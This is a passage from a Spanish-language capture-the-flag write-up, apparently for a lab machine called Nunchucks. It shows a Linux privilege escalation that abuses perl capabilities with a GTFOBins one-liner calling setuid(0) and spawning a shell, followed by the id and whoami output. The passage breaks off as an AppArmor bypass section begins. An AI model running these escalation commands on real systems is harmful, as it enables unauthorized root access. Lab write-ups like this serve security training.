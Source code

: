 A través dela herramienta de [searchbins](https://github.com/r1vs3c/searchbins), revisamos la manera de abusar de esta `capabilitie` que disponemos.

```bash
❯ searchbins -b perl -f capabilities

[+] Binary: perl

================================================================================
[*] Function: capabilities -> [https://gtfobins.github.io/gtfobins/perl/#capabilities]

	| ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Revisamos la ubicación del binario `perl`, accedemos a su directorio y ejecutamos la sintaxis para poder abusar de esta `capabilitie`, en el primer comando intentamos obtener una `Bash` como `root` pero no obtuvimos resultado ninguno.

Intentamos ejecutar el binario para obtener una _shell_ como _root_, pero no conseguimos una sesión completamente privilegiada. Al ejecutar `id`, vimos que el _UID_ era _root_, pero el _GID_ seguía siendo _david_, lo que impedía elevar nuestros privilegios.

```bash
david@nunchucks:/var/www/store.nunchucks$ which perl
/usr/bin/perl
david@nunchucks:/var/www/store.nunchucks$ cd /usr/bin/
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "id";'
uid=0(root) gid=1000(david) groups=1000(david)
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

### AppArmor Profile Bypass

Realizamos una enumeración con `linpeas.sh` y nos encontramos que `AppArmor` se encontraba habilitado en el sistema.

{% hint style="info" %}
AppArmor es un módulo de seguridad del kernel de Linux que puedes utilizar para restringir las capacidades de los procesos que se ejecutan en el sistema operativo host. Cada proceso puede tener su propio perfil de seguridad.
{% endhint %}

<figure><img src="../../.gitbook/assets/imagen (407).png" alt=""><figcaption></figcaption></figure>
